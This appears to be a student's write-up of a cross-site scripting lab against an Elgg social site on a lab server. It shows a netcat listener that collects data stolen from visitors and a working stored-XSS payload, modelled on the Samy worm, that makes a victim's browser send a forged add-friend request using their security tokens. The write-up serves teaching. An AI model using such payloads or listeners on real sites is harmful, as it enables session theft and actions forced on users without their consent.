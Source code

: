 ![](https://i.imgur.com/2U6zjtT.png)

* After that we have to use our terminal and run command: **$ nc -lknv 5555** for allow us to see what we are able to steal. The terminal is gonna print out whatever is sent by the client and sends to it everything typed by the user.

![](https://i.imgur.com/Dt1XB8P.png)


* The attack is done.



## Task 4

* In this task, we tried to recreate the famous "Samy Worm" attack that occured in 2005 on MySpace. Firstly, we need to understand how to add a friend in this website. To do so, and thanks to the HTTP tool of Mozilla Firefox, we analyse what it is sent when we add someone as a friend. for this, we used the victim's profile:

![](https://i.imgur.com/EXjLta4.png)


* As we can see, this GET method needs to send ID of the user to be added as a friend, the security token (elgg_ts) and another token, the elgg_token.

* So, if we want to make the attack, we need to write a malicious JavaScript script in the Samy's profile, more specifically, in his "About Me" section, with the option "Edit HTML" enabled.

* This is the malicous script to be written to:

> Javascript script:

```javascript=
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1670502594&__elgg_token=9G_lgRjZAewSEpzeJGa2KA&__elgg_ts=1670502594&__elgg_token=9G_lgRjZAewSEpzeJGa2KA"+ts+token;
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

* This script will just make the request instead of "Add friend" button. It is already sending all the tokens needed. Also, it is sending the URL that is sent after the adding friend action occurs, using the Samy's ID (which is 59), with the parameters mentioned before filled correctly.

* And we successfully added on his profile. It is important to note that the section does not change visually, which means the Samy's profiles seems a normal one.
